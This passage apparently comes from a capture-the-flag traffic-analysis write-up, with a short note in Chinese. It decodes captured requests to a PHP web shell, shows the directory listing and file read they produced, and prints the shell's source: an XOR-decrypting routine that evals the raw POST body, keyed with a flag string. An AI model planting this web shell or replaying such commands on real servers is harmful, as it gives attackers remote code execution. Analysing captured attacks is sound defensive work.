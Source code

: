 RQ-5

```php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDtscw==";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
```

```bash
cd /var/www/html/server/ ;ls
/var/www/html/server/
```

RS-5

```json
{"status":"c3VjY2Vzcw==","msg":"YmVoaW5kLnBocApjcmFjazYudHh0Cg=="}
```

```
success

behind.php
crack6.txt
```

---

RQ-6

````php
$cmd="Y2QgL3Zhci93d3cvaHRtbC9zZXJ2ZXIvIDtjYXQgYmVoaW5kLnBocA==";
$cmd=base64_decode($cmd);
$path="L3Zhci93d3cvaHRtbC9zZXJ2ZXIv";
$path=base64_decode($path);
main($cmd,$path);
````

```bash
cd /var/www/html/server/ ;cat behind.php
/var/www/html/server/
```

RS-6

```
PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKCWZ1bmN0aW9uIGRlY3J5cHQoJGRhdGEpCnsKICAgICRrZXk9ImZsYWcze0JlaDFfbmRlcn0iOyAKICAgICRicz0iYmFzZTY0XyIuImRlY29kZSI7CgkkYWZ0ZXI9JGJzKCRkYXRhLiIiKTsKCWZvcigkaT0wOyRpPHN0cmxlbigkYWZ0ZXIpOyRpKyspIHsKICAgIAkkYWZ0ZXJbJGldID0gJGFmdGVyWyRpXV4ka2V5WyRpJTE2XTsgCiAgICB9CiAgICByZXR1cm4gJGFmdGVyOwp9CgkkcG9zdD1EZWNyeXB0KGZpbGVfZ2V0X2NvbnRlbnRzKCJwaHA6Ly9pbnB1dCIpKTsKICAgIGV2YWwoJHBvc3QpOwo\/Pg==
```

> 这里有个小插曲，上面的字符串解密失败了。因为字符串复制过程中末尾多了个 \ 转义符号 ，需要去掉。

```php
<?php
@error_reporting(0);
	function decrypt($data)
{
    $key="flag3{Beh1_nder}";
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i%16];
    }
    return $after;
}
	$post=Decrypt(file_get_contents("php://input"));
    eval($post);
```